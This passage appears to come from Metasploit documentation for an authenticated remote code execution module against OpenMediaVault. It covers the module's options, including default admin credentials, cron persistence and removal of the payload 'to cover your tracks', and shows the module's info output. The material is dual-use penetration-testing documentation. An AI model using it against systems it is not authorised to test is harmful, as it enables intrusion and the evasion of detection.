 ## Options

### USERNAME
This option is required and is the username (default: admin) to authenticate with the application.

### PASSWORD
This option is required and is the password (default: openmediavault) in plain text to authenticate with the application.

### PERSISTENT
This option keeps the payload persistent in Cron and runs every minute. Warning: This is a noisy option for detection.
The default value is false, where the payload is removed to cover your tracks.

## Scenarios
```msf
msf6 exploit(multi/http/openmediavault_auth_cron_rce) > info

       Name: OpenMediaVault rpc.php Authenticated Cron Remote Code Execution
     Module: exploit/multi/http/openmediavault_auth_cron_rce
   Platform: Unix, Linux
       Arch: cmd, x86, x64, armle, aarch64
 Privileged: Yes
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2024-05-08

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  Brandon Perry <bperry.volatile@gmail.com>
  Mert BENADAM

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   Unix Command
      1   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  PASSWORD   openmediavault   yes       The OpenMediaVault password to authenticate with
  PERSISTENT  false           yes       Keep the payload persistent in Cron. Default value is false, where the payload is removed
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
```